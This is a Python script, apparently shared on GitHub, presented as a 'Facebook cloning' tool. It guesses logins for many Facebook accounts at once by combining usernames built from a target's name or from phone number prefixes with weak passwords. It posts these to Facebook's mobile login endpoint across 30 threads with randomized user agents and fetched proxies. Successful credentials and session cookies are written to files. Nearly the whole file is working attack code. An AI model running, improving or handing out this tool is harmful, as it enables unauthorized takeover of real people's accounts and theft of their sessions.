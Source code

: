 # OPEN-SOURCE
import os,sys,time,json,random,re,string,platform,base64,uuid
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from os import system as s
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
RED = '\033[1;91m'
WHITE = '\033[1;97m'
GREEN = '\033[1;32m' #
YELLOW = '\033[1;33m'
BLUE = '\033[1;34m'
ORANGE = '\033[1;35m'
P = '\x1b[1;97m' # PUTIH
M = '\x1b[1;91m' # MERAH
H = '\x1b[1;92m' # HIJAU
K = '\x1b[1;93m' # KUNING
B = '\x1b[1;94m' # BIRU
U = '\x1b[1;95m' # UNGU
O = '\x1b[1;96m' # BIRU MUDA
N = '\x1b[0m'    # WARNA MATI
A = '\x1b[1;90m' # WARNA ABU ABU
BN = '\x1b[1;107m' # BELAKANG PUTIH
BBL = '\x1b[1;106m' # BELAKANG BIRU LANGIT
BP = '\x1b[1;105m' # BELAKANG PINK
BB = '\x1b[1;104m' # BELAKANG BIRU
BK = '\x1b[1;103m' # BELAKANG KUNING
BH = '\x1b[1;102m' # BELAKANG HIJAU
BM = '\x1b[1;101m' # BELAJANG MERAH
BA = '\x1b[1;100m' # BELAKANG ABU ABU
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today() 
loop = 0
oks = []
cps = []
ugen2=[]
ugen=[]
cokbrut=[]
ses=requests.Session()
princp=[]
try:
 prox= requests.get('https://api.proxyscrape.com/v2/?request=displayproxies&protocol=socks4&timeout=100000&country=all&ssl=all&anonymity=all').text
 open('.prox.txt','w').write(prox)
except Exception as e:
 print('')
prox=open('.prox.txt','r').read().splitlines()
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)

os.system("xdg-open https://github.com/U7P4L-IN ")
logo = ("""

██    ██  ██████  ██    ██ ██████   ██████  ███    ██ ████████ 
 ██  ██  ██    ██ ██    ██ ██   ██ ██    ██ ████   ██    ██    
  ████   ██    ██ ██    ██ ██   ██ ██    ██ ██ ██  ██    ██    
   ██    ██    ██ ██    ██ ██   ██ ██    ██ ██  ██ ██    ██    
   ██     ██████   ██████  ██████   ██████  ██   ████    ██    
                                                               
                                                               
██   ██ ███    ██  ██████  ██     ██ ███    ███ ███████        
██  ██  ████   ██ ██    ██ ██     ██ ████  ████ ██             
█████   ██ ██  ██ ██    ██ ██  █  ██ ██ ████ ██ █████          
██  ██  ██  ██ ██ ██    ██ ██ ███ ██ ██  ██  ██ ██             
██   ██ ██   ████  ██████   ███ ███  ██      ██ ███████        
                                                               
                                                               
                                                             
""")

class Main:
    def __init__(self):
        self.id = []
        self.ok = []
        self.cp = []
        self.loop = 0
        os.system("clear")
        print(logo)
        print("\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
        print(" \033[1;97m[1] FACEBOOK EMAIL ID CLONING     \033[1;91m[WORKING] ")
        print(" \033[1;97m[2] FACEBOOK USERNAME CLONING     \033[1;35m[BEST]")
        print(" \033[1;97m[3] FACEBOOK VIP RANDOM CLONING   \033[1;33m[FIRE]")
        print(" \033[1;97m[0] Exit")
        print("\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
        Snigdho =input(" [√] Choose : ")
        if Snigdho in ["1", "01"]:
            v1()
        if Snigdho in ["2", "02"]:
            v2()
        if Snigdho in ["3","03"]:
            v3()
        if Snigdho in [" 0", "00"]:
            exit()
        else:
            exit()
def v1():
    user=[]
    os.system('clear')
    print(logo)
    kode = input(' [🔥]  TERGET FIRST NAME : ')
    kodex = input(' [🔥] TERGET LAST NAME :  ')
    print(' [🤝] example Doamin : @gmail.com, @yahoo.com ')
    doamin = input(' [📧]  Input Doamin  : ')
    limit = int(input('[?] ENTET YOUR CRACK LIMIT : '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(1,4))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' [🔥]  Total ids:\033[1;92m '+tl)
        print(f"\033[1;97m [🔥]  Target Doamin:\033[1;92m {doamin}")
        print(' \033[1;97m[🔥]  The process has been started')
        print(' [🔥]  Wait for ids ')
        print(50*'_')
        for guru in user:
            uid = kode+kodex+guru+doamin
            pwx = [kode,kodex,kode+kodex,kode+'123',kode+'1234',kode+'12345',kode+guru,kodex+'123',kodex+'1234',kodex+'12345']
            yaari.submit(rcrack1,uid,pwx,tl)
    print(50*'_')
    print(' [♥] Crack process has been completed')
    print(' [♥] Ids saved in ok.txt,cp.txt')
    print(50*'_')
def v2():
    user=[]
    os.system('clear')
    print(logo)
    kode = input(' [🔥]  TERGET FIRST NAME : ')
    kodex = input(' [🔥] TERGET FIRST NAME :  ')
    doamin = '.'
    limit = int(input('[?] ENTER YOUR CRACK LIMIT : '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(1,4))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' [🔥]  Total ids:\033[1;92m '+tl)
        print(f"\033[1;97m[♥]  Target Doamin:\033[1;92m Facebook CLONING (name)")
        print(' \033[1;97m[♥]  The process has been started')
        print(' [♥]  Wait for ids ')
        print(50*'_')
        for guru in user:
            uid = kode+doamin+kodex+guru
            pwx = [kode,kodex,kode+kodex,kode+'123',kode+'1234',kode+'12345',kode+guru,kodex+'123',kodex+'1234',kodex+'12345',kode+'@123',kode+'@1234',kode+'@12345',kode+guru,kodex+'@123',kodex+'@1234',kodex+'@12345']
            yaari.submit(rcrack1,uid,pwx,tl)
    print(50*'_')
    print(' [♥] Crack process has been completed')
    print(' [♥] Ids saved in ok.txt,cp.txt')
    print(50*'_')
def v3():
    user=[]
    os.system('clear')
    print(logo)
    print(" BD SIM CODE=><>< +88017,+88018,+88019,+88014,+88013")
    print("\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
    print(" \033[1;32mPAK SIM CODE=><>< +92301,+92302,+92303,+92305")
    print(" \033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
    print(" NOTE ; THOSE  WHO STAY IN THEIR COUNTRY THEY CAN GIVE THEIR SIM CODE NUNBER TO FACEBOOK RANDOM ID CLONE")
    print(" \033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
    
    kode = input(' [📞] ENTER SIM CODE: ')
    kodex = ''.join(random.choice(string.digits) for _ in range(2))
    kod = ''.join(random.choice(string.digits) for _ in range(2))
    doamin = ' FACEBOOK VIP CLONING (BD NUMBER) '
    limit = int(input('[?] ENTER YOUR CRACK LIMiT : '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(4))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' \033[1;33m[♥]  TOTAL IDS :\033[1;92m '+tl)
        print(f"\033[1;33m[♥]  YOUR TERGET CRACK MENU:\033[1;92m {doamin}")
        print(' \033[1;33m[♥]  THE CRACK PROCESS HAS BEEN STARTED')
        print(' \033[1;33m[♥]  WAIT FOR IDS ')
        print(50*'_')
        for guru in user:
            uid = kode+kodex+kod+guru
            pwx = [kode+kodex+kod+guru,kod+guru,kodex+guru,kode+kodex+kod,'bangladesh']
            yaari.submit(rcrack1,uid,pwx,tl)
    print(50*'_')
    print(' [♥] Crack process has been completed')
    print(' [♥] Ids saved in ok.txt,cp.txt')
    print(50*'_')
def rcrack1(uid,pwx,tl):
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            sys.stdout.write('\r[\033[1;92mYOUDONTKNOWME™\033[1;97m] [%s/%s] [\033[1;92mOK\033[1;97m:-\033[1;92m%s\033[1;97m] [\033[1;91mCP\033[1;97m:-\033[1;91m%s\033[1;97m] \r'%(loop,tl,len(oks),len(cps))),
            sys.stdout.flush()
            free_fb = session.get('https://x.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority': 'x.facebook.com',
            'method': 'POST',
            'scheme': 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
            'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
            'cache-control': 'max-age=0',
            # 'cookie': 'datr=zXxGZD6k2XpA5hC8OgvYP0m6; sb=zXxGZI6IhibLUaojbdSAEKk4; locale=en_US; dpr=2; m_pixel_ratio=2; wd=980x1821; fr=0LcgLlAiRhoUgSoP5.AWUK5JkvrYHmdTbTjdePAnKL8Tw.BkRnzN.bx.AAA.0.0.BkSALl.AWXiynXNgp0',
            'sec-ch-ua': '"Not:A-Brand";v="99", "Chromium";v="112"',
            'sec-ch-ua-mobile': '?0',
            'sec-ch-ua-platform': '"Linux"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'cross-site',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': pro,}
            lo = session.post('https://x.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print(f"\033[38;5;46m[YOUDONTKNOWME-OK🌻] {uid}|{ps}")
                print(f"\n[COOKIE🎁] : {coki}")
                open('/sdcard/U7P4L-IN/ok.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(uid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[82:97]
                print(f"\x1b[38;5;196m[YOUDONTKNOWME-CP❌] {uid}|{ps}")
                open('/sdcard/YOUDONTKNOWME-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(uid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\033[m[YOUDONTKNOWME💥] \033[1;92m%s\033[m |\033[m[\033[mOK:\033[1;92m%s\033[m] '%(loop,len(oks))),
        sys.stdout.flush()
    except:
        pass
Main()

